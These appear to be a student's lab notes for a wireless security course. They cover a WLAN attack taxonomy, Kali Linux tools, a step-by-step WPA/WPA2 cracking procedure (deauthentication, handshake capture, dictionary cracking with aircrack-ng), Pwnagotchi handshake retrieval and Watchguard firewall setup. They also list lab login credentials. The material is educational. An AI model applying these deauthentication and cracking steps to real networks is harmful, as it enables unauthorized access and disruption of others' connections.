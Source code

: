 # Lab 01 - Wireless and Mobile Networks

- Interrupt connection between access point and mobile device, capture reconnect to crack password
- Used captured network traffic from Riccarton Mall and crack authentication dialogues

## WLAN Attack Taxonomy

Passive attacks:

- Traffic analysis
  - Packet size, type, fragmentation info etc.
  - APs periodically send out beacon frames
- Eavesdropping
  - Requires wireless cards with passive packet sniffing (and active packet injection for active attacks)

Active attacks:
- Unauthorized access
  - Masquerade as a legitimate user
  - Access to wireless components may give access to wired components
- Rogue access points (Evil-Twin attack)
  - Interrupt connection, then device automatically reconnects to strongest matching AP
- Man-in-the-middle attacks
  - ARP spoofing - spoof MAC of access point and victim to force all traffic to pass through attacker
- Session hijacking
  - Spoof MAC and force disconnect - in some architectures re-authentication not required
- Replay
  - Capture authentication packets, replay then later
- Denial of Service
  - Attacks against layer 1 (physical) or 2 (data link) cannot be stopped
  - NZ stock exchange attack: attacked DNS server

PSK (pre-shared key) used in labs: each node has string/passphrase that is combined with network SSID to generate unique encryption key for each client (Temporal TODO)

## Tools

Several tools available pre-installed in Kali-Linux

 - `airmon-ng`: set wireless adapter to monitor mode to sniff packets meant for other devices
 - `kismet`: wireless network detector, packet sniffer
 - `iwconfig`: check wireless adapter is in monitor mode
 - `airodump-ng`: capture packets and display access point properties (ethernet address, channel number, speed, etc.)
 - `aireplay-ng`: issue deauthentication packets and capture the automatic reconnection dialogue
 - `aircrack-ng`: decrypting keys captured by `aireplay-ng`
 - `airbase-ng`: establishing access point for evil-twin attack
 - `macchanger`: view/spoof MAC address

('ng' stands for 'next generation' - basically version 2)

Login:

- `cyberlab`: `$CyberLab!`
- `root`: `toor`

## WPA/WPA2 Password Cracking

- Kill DHCP server: `ps-eaf | grep dhc` then `kill -9 {process_id}`
- `iwconfig` to find interface name
- `airodump-ng {wireless_interface}`; scan for networks, determine channel number and MAC address (BSSID - *b*asic **s**ervice **s**et **id**entifier) of target AP
- `airmon-ng stop {wireless_interface}`
- `airmon-ng start {wireless_interface} {channel_number}` to enable monitor mode for a specific channel
- `iwconfig` to find the new monitoring network interface's name
- `airodump-ng -c {ap_channel} --bssid {ap_mac} -w {capture_file_path} {wireless_interface}`
  - Continue running the command
  - `BSSID` is the AP MAC, `STATION` is the victim's MAC
- `aireplay-ng -0 1 -a {ap_mac} -c {vicim_mac} {wireless_interface}`
  - Send 1 de-authentication packet (`-0 1` is short for `--deauth=1`)
    - The device will then automatically reconnect. `airodump-ng` will be able to capture the four-way handshake
      - PSK (pre-shared key) derived from passphrase. Both parties need to prove they hold the key without sending it over the wire
- (Optional) To see it working, go to Wireshark, select correct interface (Capture -> Options), filter using `eapol` (extensible authentication protocol over link layer)
- `aircrack-ng -w {path_to_dictionary} -b {victim_mac} {capture_file_path}`
  - Unzip gzip files: `gunzip {path}`
  - Cracks captured password

### Pwnagotchi

- Connect via USB
- `ifconfig -a`: ensure usb0 is being used as networking device
- `ifconfig usb0 10.0.0.1/24`: set IP of device
- `scp -r pi@10.0.0.2:/root/handshakes ~/handshakes`: copy files from Pwnagotchi to computer
  - Pwnagotchi contains PCAP files with format `{SSID name}_{BSSID}.pcap`

## Enterprise Security

- External interface: network that presents the security threat
- Trusted interface: private LAN/internal interface
- Optional interface: DMZ/mixed trust area. APs go here

Watchguard:

- All-in-one firewall + switch + wireless AP
- IP address of the Watchguard device: default gateway
- Add HTTP packet filter
  - Basically port filter: only allows tcp traffic in port 80
  - HTTP proxy allows packet contents to be inspected
  - Allow traffic From Any-Optional To Any-Trusted
    - *Initial* connection must be from outside to inside
- Set up wireless interface
  - Note IP and CIDR of interface 2
  - Create new bridge with IP and CIDR from above, optional security zone and DHCP enabled
  - Set interface 2 to bridge type, set bridge to the one made above
  - Enable wireless AP in bridge mode (using bridge from above)
  - At this point devices should be able to connect to the AP, and the firewall rule allows HTTP traffic from device to server connected to any trusted network
  - WPA2 Enterprise: can either set wireless network to use Firebox DB or RADIUS server (e.g. Active Directory) for authentication

## Write-up

- Explain importance of software security, brief example of experiments done in labs
- Own diagrams - no copying off internet/lab notes, or scans of hand-drawn diagrams
- References to supplement writing
- Observations: potential risks, areas of interest
- Some research and comments

Structure:

- Title
- Author
- Abstract: purpose and findings
- Introduction:
  - Description of experiments, equipment, tools, techniques
  - Vulnerabilities demonstrated
  - Diagrams of equipment/system
- Experimental results:
  - Explanation of experiments, importance of results
  - A few screenshots and their explanations
  - Relate to cybersecurity disasters
- Conclusions: (in)adequacy of setup results
- Comments on prevalence of security issues in current systems, organizations
- References (optional)
